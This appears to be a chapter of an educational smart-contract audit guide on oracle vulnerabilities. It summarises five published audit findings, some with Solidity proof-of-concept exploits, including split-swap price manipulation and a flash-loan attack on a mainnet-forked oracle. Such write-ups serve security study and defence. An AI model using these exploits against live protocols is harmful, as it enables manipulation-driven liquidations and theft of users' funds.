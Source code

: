 # ETAAcademy-Adudit: 7. Oracle

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>07. Oracle</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>oracle</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] The use of spot price by CoreSaltyFeed can lead to price manipulation and undesired liquidations

### Difference between TWAP and Chainlink

- Summary: Chainlink's instant spot prices and CoreSaltyFeed's manipulable prices create arbitrage opportunities. Low liquidity and a $500 maximum reward make attacks profitable. If Chainlink fails, a 3% market change isn't needed for the attack. Borrowers may face unexpected liquidation, and honest liquidators may be unable to act due to price manipulation.

- Impact & Recommendation: Consider replacing CoreSaltyFeed with a different oracle that provides better protection against manipulation, like Band Protocol.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-salty#h-03-the-use-of-spot-price-by-coresaltyfeed-can-lead-to-price-manipulation-and-undesired-liquidations) & [Report](https://code4rena.com/reports/2024-01-salty)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: BUSL 1.1
    pragma solidity =0.8.22;
    import "../../dev/Deployment.sol";
    import "../PoolUtils.sol";
    contract H2 is Deployment
        {
        TestERC20 immutable tokenA;
        TestERC20 immutable tokenB;
        address ALICE = address(0x1111);
        address BOB = address(0x2222);
                constructor()
            {
                initializeContracts();
                grantAccessAlice();
                grantAccessBob();
                grantAccessCharlie();
                grantAccessDeployer();
                grantAccessDefault();
                finalizeBootstrap();
                vm.startPrank(address(daoVestingWallet));
                salt.transfer(DEPLOYER, 1000000 ether);
                salt.transfer(address(collateralAndLiquidity), 1000000 ether);
                vm.stopPrank();
                vm.startPrank( DEPLOYER );
                tokenA = new TestERC20("TOKENA", 18);
                tokenB = new TestERC20("TOKENB", 18);
                vm.stopPrank();
                _prepareToken(tokenA);
                _prepareToken(tokenB);
                _prepareToken(weth);
                vm.stopPrank();
                vm.prank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, tokenB );
                vm.stopPrank();
            }
            // Make the required approvals and transfer to Bob and Alice.
            function _prepareToken(IERC20 token) internal {
                vm.startPrank( DEPLOYER );
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                // For WBTC, we can't use 'ether', so we use 10**8.
                uint decimals = TestERC20(address(token)).decimals();
                token.transfer(ALICE, 1_000_000 * (10**decimals));
                token.transfer(BOB, 1_000_000 * (10**decimals));
                vm.startPrank(ALICE);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.startPrank(BOB);
                token.approve( address(pools), type(uint256).max );
                token.approve( address(collateralAndLiquidity), type(uint256).max );
                vm.stopPrank();
            }
            // Create pools that will participate in arbitrage
            // Note: We have all required pools for successful arbitrage, see ArbitrageSearch::_arbitragePath
            // swap: swapTokenIn->WETH
            // arb: WETH->swapTokenIn->WBTC->WETH
            // We have: tokenA/WETH, tokenA/WBTC, WBTC/WETH
            function _makeArbitragePossible(uint amountToDeposit) internal {
                // based on Pools.t.sol::testDepositDoubleSwapWithdraw
                vm.startPrank(DEPLOYER);
                wbtc.approve(address(collateralAndLiquidity), type(uint256).max );
                weth.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenB.approve(address(collateralAndLiquidity), type(uint256).max );
                tokenA.approve(address(pools), type(uint256).max );
                vm.warp(block.timestamp + stakingConfig.modificationCooldown());
                collateralAndLiquidity.depositCollateralAndIncreaseShare(
                    amountToDeposit * 10**8, amountToDeposit * 1 ether, 0, block.timestamp, false
                );
                vm.stopPrank();
                vm.startPrank(address(dao));
                poolsConfig.whitelistPool( pools, tokenA, wbtc);
                poolsConfig.whitelistPool( pools, tokenA, weth);
                poolsConfig.whitelistPool( pools, tokenB, wbtc);
                poolsConfig.whitelistPool( pools, tokenB, weth);
                vm.stopPrank();
                vm.startPrank(DEPLOYER);
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, wbtc, amountToDeposit * 1 ether, amountToDeposit * 10**8, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenA, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                collateralAndLiquidity.depositLiquidityAndIncreaseShare(
                    tokenB, weth, amountToDeposit * 1 ether, amountToDeposit * 1 ether, 0,
                    block.timestamp, false
                );
                vm.stopPrank();
            }
            function _getReservesAndPrice(IERC20 _tokenA, IERC20 _tokenB) internal view returns (
                string memory _tokenASymbol, string memory _tokenBSymbol,
                uint reserveA, uint reserveB, uint priceBinA
            ) {
                (reserveA, reserveB) = pools.getPoolReserves(_tokenA, _tokenB);
                _tokenASymbol = TestERC20(address(_tokenA)).symbol();
                _tokenBSymbol = TestERC20(address(_tokenB)).symbol();
                uint8  _tokenADecimals = TestERC20(address(_tokenA)).decimals();
                uint8  _tokenBDecimals = TestERC20(address(_tokenB)).decimals();
                // reserveA / reserveB  || b.decimals - a.decimals  || normalizer
                // 1e8/1e18             || diff 10                  || 1e28
                // 1e18/1e18            || diff 0                   || 1e18
                // 1e18/1e8             || diff -10                 || 1e8
                int8 decimalsDiff = int8(_tokenBDecimals) - int8(_tokenADecimals);
                uint normalizerPower = uint8(int8(18) + decimalsDiff);
                uint normalizer = 10**normalizerPower;
                // price with precision 1e18
                priceBinA = reserveB == 0
                        ? 0
                        : ( reserveA * normalizer ) / reserveB;
            }
            function _printReservesAndPriceFor(IERC20 _tokenA, IERC20 _tokenB) internal view
            {
                (
                    string memory _tokenASymbol,
                    string memory _tokenBSymbol,
                    uint reserveA,
                    uint reserveB,
                    uint priceBinA
                ) = _getReservesAndPrice(_tokenA, _tokenB);
                console2.log("%s reserves: %e", _tokenASymbol , reserveA);
                console2.log("%s reserves: %e", _tokenBSymbol, reserveB);
                console2.log("%s price in %s: %e", _tokenBSymbol, _tokenASymbol, priceBinA);
                console.log("");
            }
            // Extracted some local variables to storage due to too many local variables.
            struct MovePriceParams {
                uint amountToExchange;
                uint expectedMovementPercents;
                uint expectedLoss;
            }
            uint gasBefore = 1; // Set to 1 to save gas on updates and obtain more accurate gas estimations.
            uint stepsCount;
            // Splitting a swap into several steps will significantly reduce slippage.
            // More steps will further reduce slippage, thereby decreasing the cost of the attack.
            // However, too many steps can incur high gas costs; for instance, 100 steps will cost approximately 3+4=7 million gas (as indicated in the console.log output).
            uint constant steps = 100;
            function _movePrice(MovePriceParams memory p) internal {
                /* Before the attack */
                console.log("\n%s", "__BEFORE");
                // Check price before
                (,,,,uint priceBefore) = _getReservesAndPrice(tokenA, weth);
                assertEq(1 ether, priceBefore); // price is 1:1
                _printReservesAndPriceFor(tokenA, weth);
                uint wethBefore = weth.balanceOf(ALICE);
                uint tokenABefore = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", wethBefore);
                console2.log("tokenA.balanceOf(ALICE): %e", tokenABefore);
                /* Move the price */
                vm.startPrank(ALICE);
                gasBefore = gasleft();
                for (uint i; i < steps; i++){
                    pools.depositSwapWithdraw(tokenA, weth, p.amountToExchange/steps, 0, block.timestamp + 300);
                }
                console.log("Gas first(for) loop: ", gasBefore - gasleft());
                /* After the attack */
                console.log("\n%s", "__AFTER");
                // Console.log the output
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfter = weth.balanceOf(ALICE);
                uint tokenAAfter = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                uint wethGained = wethAfter - wethBefore;
                uint tokenALost = tokenABefore - tokenAAfter;
                console2.log("weth.balanceOf(ALICE) diff: %e", wethGained);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenALost);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                uint attackPrice = tokenALost - wethGained;
                console2.log("Losses for the attacker (before swapping back): %e", attackPrice);
                // Assert that the attack was successful and inexpensive.
                (,,,,uint priceAfter) = _getReservesAndPrice(tokenA, weth);
                uint priceDiff = priceAfter - priceBefore;
                assertTrue(priceDiff >= p.expectedMovementPercents * 1 ether / 100);
                /* The attacker can further reduce the cost by exchanging back. */
                /* After the exchange, the price is moved back. */
                console.log("\n%s", "__AFTER_EXCHANGING_BACK");
                (,,,,uint currentPrice) = _getReservesAndPrice(tokenA, weth);
                uint step = p.amountToExchange/steps;
                gasBefore = gasleft();
                while (currentPrice > 1 ether){
                    pools.depositSwapWithdraw(weth, tokenA, step, 0, block.timestamp);
                    (,,,,currentPrice) = _getReservesAndPrice(tokenA, weth);
                    stepsCount++;
                }
                // Console.log the output
                console2.log("Gas second(while) loop: ", gasBefore - gasleft());
                console2.log("stepsCount", stepsCount);
                _printReservesAndPriceFor(tokenA, weth);
                uint wethAfterBalancing = weth.balanceOf(ALICE);
                uint tokenAAfterBalancing = tokenA.balanceOf(ALICE);
                console2.log("weth.balanceOf(ALICE): %e", weth.balanceOf(ALICE));
                console2.log("tokenA.balanceOf(ALICE): %e", tokenA.balanceOf(ALICE));
                int wethDiff = int(wethAfterBalancing) - int(wethBefore);
                int tokenADiff = int(tokenAAfterBalancing) - int(tokenABefore);
                console2.log("weth.balanceOf(ALICE) diff: %e", wethDiff);
                console2.log("tokenA.balanceOf(ALICE) diff: %e", tokenADiff);
                // Note: Since the price of tokenA and WETH are the same at the start, with a 1:1 ratio,
                // we can subtract and add them as equivalent values.
                int sumDiff = wethDiff + tokenADiff;
                console2.log("Diff (positive=profit) for the attacker: %e", sumDiff);
                console2.log("Arbitrage profits for DAO: %e", pools.depositedUserBalance(address(dao), weth ));
            }
        function testMovePrice10PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(75 ether, 10, 0.0363 ether));
            }
        function testMovePrice3PercentsFor1000EtherPools() public
            {
                _makeArbitragePossible(1_000);
                _movePrice(MovePriceParams(23 ether, 3, 0.0036 ether));
            }
        function testMovePrice3PercentsFor100EtherPools() public
            {
                _makeArbitragePossible(100);
                _movePrice(MovePriceParams(2.3 ether, 3, 0.0004 ether));
            }
        function testMovePrice3PercentsFor10EtherPools() public
            {
                _makeArbitragePossible(10);
                _movePrice(MovePriceParams(0.23 ether, 3, 0.00008 ether));
            }
    }

  ```

  </details>

## 2.[High] OUSGInstantManager will allow excessive OUSG token minting during USDC depeg event

### Excessive OUSG token minting during USDC depeg

- Summary: OUSGInstantManager allows users to mint OUSG tokens using USDC, based on a fixed conversion rate, without validation checks on the current USDC price. The minting logic relies on the OUSG price obtained from an oracle, constrained to ensure stability. During a USDC depeg event, where USDC's value deviates from 1 USD, users can potentially mint excessive OUSG tokens, leading to a significant impact on token supply.

- Impact & Recommendation: Excessive OUSG token minting during USDC depeg events. Implement an additional Oracle to consider current USDC price when calculating OUSG token minting.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-ondo-finance#h-01-ousginstantmanager-will-allow-excessive-ousg-token-minting-during-usdc-depeg-event) & [Report](https://code4rena.com/reports/2024-03-ondo-finance)

  <details><summary>POC</summary>

  ```solidity
       function setPrice(int256 newPrice) external onlyRole(SETTER_ROLE) {
       if (newPrice <= 0) {
         revert InvalidPrice();
       }
   @-> if (block.timestamp - priceTimestamp < MIN_PRICE_UPDATE_WINDOW) {
         revert PriceUpdateWindowViolation();
       }
   @-> if (_getPriceChangeBps(rwaPrice, newPrice) > MAX_CHANGE_DIFF_BPS) {
         revert DeltaDifferenceConstraintViolation();
       }
       // Set new price
       int256 oldPrice = rwaPrice;
       rwaPrice = newPrice;
       priceTimestamp = block.timestamp;
       emit RWAPriceSet(oldPrice, newPrice, block.timestamp);
     }

       function _getMintAmount(
           uint256 usdcAmountIn,
           uint256 price
       ) internal view returns (uint256 ousgAmountOut) {
           uint256 amountE36 = _scaleUp(usdcAmountIn) * 1e18;
           ousgAmountOut = amountE36 / price;
       }

  ```

  </details>

## 3.[High] Anyone making use of the MagicLP’s TWAP to determine token prices will be exploitable.

### TWAP updating mechanism

- Summary: MagicLP's TWAP updating mechanism allows attackers to manipulate recorded prices by inflating reserves before a query, resulting in potentially exploitative trading conditions for unsuspecting users. This can lead to significant profit for attackers who exploit the manipulated prices during trading activities, posing a risk to any application relying on MagicLP’s TWAP for token price determination.

- Impact & Recommendation: `_twapUpdate()` needs to be called before reserves are updated.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-01-anyone-making-use-of-the-magiclps-twap-to-determine-token-prices-will-be-exploitable) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    function _twapUpdate() internal {
        uint32 blockTimestamp = uint32(block.timestamp % 2 ** 32);
        uint32 timeElapsed = blockTimestamp - _BLOCK_TIMESTAMP_LAST_;
        if (timeElapsed > 0 && _BASE_RESERVE_ != 0 && _QUOTE_RESERVE_ != 0) {
            /// @dev It is desired and expected for this value to
            /// overflow once it has hit the max of `type.uint256`.
            unchecked {
                _BASE_PRICE_CUMULATIVE_LAST_ += getMidPrice() * timeElapsed;
            }
        }
        _BLOCK_TIMESTAMP_LAST_ = blockTimestamp;
    }

    function _resetTargetAndReserve() internal returns (uint256 baseBalance, uint256 quoteBalance) {
        baseBalance = _BASE_TOKEN_.balanceOf(address(this));
        quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this));
        if (baseBalance > type(uint112).max || quoteBalance > type(uint112).max) {
            revert ErrOverflow();
        }
        _BASE_RESERVE_ = uint112(baseBalance);
        _QUOTE_RESERVE_ = uint112(quoteBalance);
        _BASE_TARGET_ = uint112(baseBalance);
        _QUOTE_TARGET_ = uint112(quoteBalance);
        _RState_ = uint32(PMMPricing.RState.ONE);
        _twapUpdate();
    }
    function _setReserve(uint256 baseReserve, uint256 quoteReserve) internal {
        _BASE_RESERVE_ = baseReserve.toUint112();
        _QUOTE_RESERVE_ = quoteReserve.toUint112();
        _twapUpdate();
    }


```

</details>

## 4.[High] Oracle price can be manipulated

### Oracle price

- Summary: MagicLpAggregator allows attackers to manipulate pair token prices by inflating reserve values. For example, an attacker can use a flash loan to inflate the pair price, which can deceive users relying on the oracle's price information, leading to potential financial losses.

- Impact & Recommendation: Consider add a sanity check in MagicLpAggregator to compare base and quote token prices with the Chainlink price feed.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-abracadabra-money#h-04-oracle-price-can-be-manipulated) & [Report](https://code4rena.com/reports/2024-03-abracadabra-money)

<details><summary>POC</summary>

```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    import "utils/BaseTest.sol";
    import "oracles/aggregators/MagicLpAggregator.sol";
    // import "forge-std/console2.sol";
    interface IDodo {
        function getVaultReserve() external view returns (uint256 baseReserve, uint256 quoteReserve);
        function _QUOTE_TOKEN_() external view returns (address);
        function sellBase(address to) external returns (uint256);
        function sellQuote(address to) external returns (uint256);
    }
    interface IFlashMinter {
        function flashLoan(address, address, uint256, bytes memory) external;
    }
    contract MagicLpAggregatorExt is MagicLpAggregator {
        constructor(
            IMagicLP pair_,
            IAggregator baseOracle_,
            IAggregator quoteOracle_
        ) MagicLpAggregator(pair_, baseOracle_, quoteOracle_) {}
        function _getReserves() internal view override returns (uint256, uint256) {
            return IDodo(address(pair)).getVaultReserve();
        }
    }
    contract Borrower {
        IFlashMinter private immutable minter;
        IDodo private immutable dodoPool;
        MagicLpAggregator private immutable oracle;
        constructor(address _minter, address _dodoPool, address _oracle) {
            minter = IFlashMinter(_minter);
            dodoPool = IDodo(_dodoPool);
            oracle = MagicLpAggregator(_oracle);
        }
        /// Initiate a flash loan
        function flashBorrow(address token, uint256 amount) public {
            IERC20Metadata(token).approve(address(minter), ~uint256(0));
            minter.flashLoan(address(this), token, amount, "");
        }
        /// ERC-3156 Flash loan callback
        function onFlashLoan(
            address initiator,
            address token, // DAI
            uint256 amount,
            uint256 fee,
            bytes calldata data
        ) external returns (bytes32) {
            // tamper with the DAI/USDT pool
            IERC20Metadata(token).transfer(address(dodoPool), amount);
            dodoPool.sellBase(address(this));
            IERC20Metadata quote = IERC20Metadata(dodoPool._QUOTE_TOKEN_());
            uint256 quoteAmount = quote.balanceOf(address(this));
            // pair price after tampering
            uint256 response = uint256(oracle.latestAnswer());
            console.log("BAD ANSWER: ", response);
            // Do something evil here
            // swap tokens back and repay the loan
            address(quote).call{value: 0}(abi.encodeWithSignature("transfer(address,uint256)", address(dodoPool), quoteAmount));
            dodoPool.sellQuote(address(this));
            IERC20Metadata(token).transfer(initiator, amount + fee);
            return keccak256("ERC3156FlashBorrower.onFlashLoan");
        }
    }
    contract MagicLpAggregatorTest is BaseTest {
        MagicLpAggregatorExt aggregator;
        address public DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
        address constant DAI_MINTER = 0x60744434d6339a6B27d73d9Eda62b6F66a0a04FA;
        address constant DODO_POOL = 0x3058EF90929cb8180174D74C507176ccA6835D73;
        function setUp() public override {
            fork(ChainId.Mainnet, 19365773);
            _setUp();
        }
        function _setUp() public {
            super.setUp();
            aggregator = new MagicLpAggregatorExt(
                IMagicLP(DODO_POOL),
                IAggregator(0xAed0c38402a5d19df6E4c03F4E2DceD6e29c1ee9),
                IAggregator(0x3E7d1eAB13ad0104d2750B8863b489D65364e32D)
            );
        }
        function testGetResult() public {
            uint256 response = uint256(aggregator.latestAnswer());
            // pair price before ~ $2
            assertEq(response, 2000502847471294054);
            console.log("GOOD ANSWER: ", response);
            // use DAI flash minter to inflate the pair price to $67
            Borrower borrower = new Borrower(DAI_MINTER, DODO_POOL, address(aggregator));
            deal(DAI, address(borrower), 1100 * 1e18);
            IERC20Metadata(DAI).approve(address(borrower), type(uint256).max);
            borrower.flashBorrow(DAI, 100_000_000 ether);
        }
    }

```

</details>

## 5.[Medium] Same heartbeat for multiple price feeds is vulnerable

### Oracle heartbeat

- Summary: ChainLinkDataConsumer applies the same allowedPriceUpdateDelay (heartbeat) to multiple Chainlink feeds, despite each feed having different native heartbeats (e.g., USDC/USD with 24h vs. others with ~1h). This design forces the contract to either use the longest heartbeat (risking consumption of stale prices from faster feeds) or the shortest heartbeat (causing frequent reverts when slower feeds are within their normal delay). As a result, the system faces a trade-off between downtime and stale data, undermining the reliability of price checks.

- Impact & Recommendation: Use individual heartbeat periods
  <br> 🐬: [Source](https://audits.sherlock.xyz/contests/1065/report#NeutrlProtocol) & [Report](https://audits.sherlock.xyz/contests/1065/report)

<details><summary>POC</summary>

```solidity

    if (block.timestamp < updatedAt_ || block.timestamp - updatedAt_ > allowedPriceUpdateDelay) {
        return 0;
    }

```

</details>
